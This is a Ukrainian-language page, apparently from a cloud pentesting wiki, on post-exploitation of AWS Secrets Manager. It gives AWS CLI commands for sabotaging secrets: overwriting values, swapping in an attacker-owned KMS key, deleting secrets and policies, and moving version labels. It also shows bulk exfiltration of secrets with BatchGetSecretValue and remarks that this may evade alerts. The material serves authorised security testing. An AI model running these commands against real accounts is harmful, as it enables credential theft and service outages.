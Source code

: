 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Для отримання додаткової інформації див.:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Читання секретів

Самі **секрети є чутливою інформацією**, [див. privesc сторінку](../aws-privilege-escalation/aws-secrets-manager-privesc.md), щоб дізнатися, як їх читати.

### DoS — зміна значення секрету

Змінивши значення секрету, ви можете **спровокувати DoS у всіх систем, що залежать від цього значення.**

> [!WARNING]
> Зауважте, що попередні значення також зберігаються, тому легко повернутися до попереднього значення.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Зміна KMS key

Якщо зловмисник має дозвіл secretsmanager:UpdateSecret, він може налаштувати секрет так, щоб використовувався KMS key, який належить зловмиснику. Цей ключ спочатку налаштований так, що будь-хто може отримати до нього доступ і використовувати його, тому оновлення секрету з новим ключем можливе. Якби ключ був недоступний, секрет оновити було б неможливо.

Після зміни ключа для секрету зловмисник змінює конфігурацію свого ключа так, щоб доступ до нього мав лише він. Таким чином у наступних версіях секрету він буде зашифрований новим ключем, і оскільки доступу до нього не буде, можливість отримати секрет буде втрачено.

Важливо зазначити, що ця недоступність виникне лише в пізніших версіях, після зміни вмісту секрету, оскільки поточна версія все ще зашифрована оригінальним KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Мінімальна кількість днів для видалення Secret — 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Можна відновити секрет, що дозволяє відновлювати секрети, заплановані до видалення, оскільки мінімальний період видалення для секретів становить 7 днів, а максимальний — 30 днів. У поєднанні з дозволом secretsmanager:GetSecretValue це дає змогу отримати їхній вміст.

Щоб відновити секрет, що перебуває в процесі видалення, можна використати наступну команду:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Ця дія дозволяє видалити resource policy, який контролює, хто може отримати доступ до секрету. Це може призвести до DoS, якщо resource policy був налаштований так, щоб дозволяти доступ певному набору користувачів.

Щоб видалити resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Стани секрету використовуються для керування версіями секрету. AWSCURRENT позначає активну версію, яку використовують додатки, AWSPREVIOUS зберігає попередню версію, щоб у разі потреби можна було відкотитися, а AWSPENDING використовується в процесі ротації для підготовки та перевірки нової версії перед тим, як зробити її поточною.

Додатки завжди читають версію з AWSCURRENT. Якщо хтось перемістить цей ярлик на неправильну версію, додатки використовуватимуть недійсні облікові дані і можуть зазнати збою.

AWSPREVIOUS не використовується автоматично. Однак якщо AWSCURRENT буде видалено або переназначено неправильно, може створитися враження, що все досі працює з попередньою версією.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Зловживайте Secrets Manager BatchGetSecretValue API, щоб отримати до 20 секретів в одному запиті. Це може значно зменшити обсяг викликів API в порівнянні з ітерацією GetSecretValue по кожному секрету. Якщо використовуються фільтри (tags/name), також потрібен дозвіл ListSecrets. CloudTrail все одно записує один GetSecretValue подію для кожного секрету, отриманого в батчі.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue для кожного цільового секрету
- secretsmanager:ListSecrets якщо використовуються --filters
- kms:Decrypt на CMKs, які використовуються секретами (якщо не використовується aws/secretsmanager)

> [!WARNING]
> Зауважте, що дозвіл `secretsmanager:BatchGetSecretValue` сам по собі недостатній для отримання секретів — вам також потрібен `secretsmanager:GetSecretValue` для кожного секрету, який ви хочете отримати.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Експфільтрація за фільтрами (ключ/значення тегу або префікс імені)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Обробка часткових збоїв
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Наслідки
- Швидке «smash-and-grab» багатьох секретів з меншою кількістю API викликів, що потенційно дозволяє обійти сповіщення, налаштовані на піки GetSecretValue.
- Журнали CloudTrail все ще містять по одному запису GetSecretValue на кожен секрет, отриманий у пакеті.
